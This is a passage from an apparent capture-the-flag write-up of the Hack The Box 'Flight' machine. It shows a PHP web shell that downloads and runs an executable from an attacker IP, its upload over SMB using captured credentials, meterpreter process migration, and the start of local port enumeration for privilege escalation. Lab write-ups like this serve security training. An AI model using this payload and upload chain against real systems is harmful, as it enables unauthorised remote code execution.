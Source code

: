 ```bash
cat primer.php  
<?php system("powershell -c \"iwr -uri http://10.10.14.112/dusk.exe -outfile c:\\users\\public\\dusk.exe; c:\\users\\public\\dusk.exe\"");?>

smbclient -U 'flight.htb\c.bum%<REDACTED>' //10.129.228.120/Web -c "cd flight.htb; put primer.php"
```

There you go, now we can work.

```bash
meterpreter > getuid
Server username: flight\svc_apache

meterpreter > execute -H -f notepad
Process 3324 created.

meterpreter > migrate 3324
[*] Migrating from 4024 to 3324...
[*] Migration completed successfully.
```

# PrivEsc

Listing listening ports shows a TCP/8000 that was not present in the Nmap output.

```
C:\xampp\htdocs\flight.htb>netstat -ano  
Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       5140
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       648
  ...
  TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       3048
```

Doing a curl confirms that it is not an empty web.

```html
C:\xampp\htdocs\flight.htb>curl localhost:8000 -X GET -s
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
<!--

Template 2093 Flight

http://www.tooplate.com/view/2093-flight

-->
        <title>Flight - Travel and Tour</title>
    
        <meta name="description" content="">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="apple-touch-icon" href="apple-touch-icon.png">
```
